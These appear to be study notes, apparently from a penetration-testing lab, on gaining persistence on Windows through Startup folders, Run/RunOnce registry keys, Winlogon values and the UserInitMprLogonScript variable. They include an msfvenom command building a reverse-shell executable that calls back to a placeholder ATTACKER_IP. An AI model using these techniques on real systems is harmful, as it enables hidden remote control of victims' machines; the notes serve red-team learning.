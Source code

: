
## Startup tasks
- Each user has a folder under `C:\Users\<your_username>\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup`
-  to force all users to run a payload while logging in, we can use the folder under `C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp`

```shell
# Generate a rev shell payload
# Note, this is not the same as exe-service
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4450 -f exe -o revshell.exe
```

- Now, copy the file to any of the above startup folders and signout -> signin again

## Run / RunOnce

use the following registry entries to specify applications to run at logon:

- `HKCU\Software\Microsoft\Windows\CurrentVersion\Run`
- `HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce`
- `HKLM\Software\Microsoft\Windows\CurrentVersion\Run`
- `HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnce`

- Any program specified under the `Run` keys will run every time the user logs on. Programs specified under the `RunOnce` keys will only be executed a single time

 - create a `REG_EXPAND_SZ` registry entry under `HKLM\Software\Microsoft\Windows\CurrentVersion\Run`. The entry's name can be anything you like, and the value will be the command we want to execute.

## WinLogon

Winlogon, the Windows component that loads your user profile right after authentication (amongst other things).

- Winlogon uses some registry keys under `HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\` that could be interesting to gain persistence:

- `Userinit` points to `userinit.exe`, which is in charge of restoring your user profile preferences.
- `shell` points to the system's shell, which is usually `explorer.exe`.
- If we'd replace any of the executables with some reverse shell, we would break the logon sequence, which isn't desired. Interestingly, you can append commands separated by a comma, and Winlogon will process them all.

## Logon scripts
- One of the things `userinit.exe` does while loading your user profile is to check for an environment variable called `UserInitMprLogonScript`. 
- We can use this environment variable to assign a logon script to a user that will get run when logging into the machine. The variable isn't set by default, so we can just create it and assign any script we like.
- To create an environment variable for a user, you can go to its `HKCU\Environment` in the registry. We will use the `UserInitMprLogonScript` entry to point to our payload so it gets loaded when the users logs in
